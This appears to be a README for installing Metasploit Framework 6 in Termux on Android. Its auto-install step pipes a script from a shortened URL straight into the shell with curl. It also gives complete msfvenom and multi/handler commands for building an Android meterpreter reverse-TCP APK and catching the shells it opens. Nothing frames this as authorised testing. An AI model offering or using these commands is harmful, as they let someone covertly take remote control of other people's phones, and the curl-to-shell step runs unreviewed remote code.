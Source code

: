 # Metasploit Framework 6 in Termux
[![GitLab Testing status](https://gitlab.com/gushmazuko/metasploit_in_termux/badges/master/pipeline.svg)](https://gitlab.com/gushmazuko/metasploit_in_termux/-/pipelines) ![GitHub Repo stars](https://img.shields.io/github/stars/gushmazuko/metasploit_in_termux?style=social) [![](https://img.shields.io/badge/GitLab-Mirror-succes?link=https://gitlab.com/gushmazuko/metasploit_in_termux)](https://gitlab.com/gushmazuko/metasploit_in_termux)

![Metasploit 6 running](https://i.imgur.com/yLFQhvP.png)

## How to Install
## Before

In order to have updated Termux:
- **Purge all data** of Termux in Android Settings
- Uninstall and reinstall latest Termux version from [F-Droid](https://f-droid.org/en/packages/com.termux/) (Version on Play Store is outdated)
- Then launch Termux to initialization, close it (force stop, not swap)
- Reopen and follow the instructions below

### Auto
```bash
source <(curl -fsSL https://kutt.it/msf)
```

### Manual
```bash
pkg install wget

wget https://github.com/gushmazuko/metasploit_in_termux/raw/master/metasploit.sh


chmod +x metasploit.sh

./metasploit.sh
```

## Launch metasploit
After installation start Metasploit using the command:
```bash
msfconsole
```
## CREATE APK COMMAND
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=your_public_ip LPORT=4444 -o appname.apk

```

## FOR SAVING APK

```
mv appname.apk /sdcard/

```
## Handler to connect apk
```
msfconsole

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
set ExitOnSession false
exploit
```
##Done ✅ enjoy 
